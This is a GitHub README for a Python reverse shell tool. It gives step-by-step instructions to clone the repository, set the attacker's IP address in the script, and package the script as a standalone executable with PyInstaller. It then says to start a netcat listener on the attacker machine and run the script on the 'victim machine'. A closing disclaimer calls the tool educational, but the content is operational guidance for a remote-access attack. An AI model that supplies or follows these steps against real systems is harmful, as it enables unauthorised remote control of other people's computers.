 # ReverseShell | Written In <a href="https://www.python.org/"><img src="https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54" alt="Python Badge"/></a>
- A python3 reverseshell.

![revsh](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use this reverseshell?:snake:

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```
- Now you need to navigate to the ReverseShell directory.
- You will find a file called >> reverseshell.py:

- IMPORTANT: You need to change the ipv4 address in the script:
---
![exa](https://github.com/Keyj33k/profiles/blob/main/profile/revshell.png?raw=true)
---
- IMPORTANT: Use this command to install the requirements:
```
pip install -r requirements.txt
```
- OPTIONAL: You can make a executable using command:
```
pyinstaller --onefile reverseshell.py
```
- PyInstaller command not found?
```
pip install pyinstaller
```

### After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```
- NC command not found (Debian/-based)?
```
sudo apt-get install -y netcat
```

- On the vivtim machine:
```
python3 reverseshell.py 
```
# Explained:

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

Note:
- This tool is for educational and ethical purposes only. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

---
![pypy](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/pypy.jpeg)
---
---
  
- Tested on 5.17.0-kali3-amd64, 5.15.0-40-generic-Ubuntu
  
---


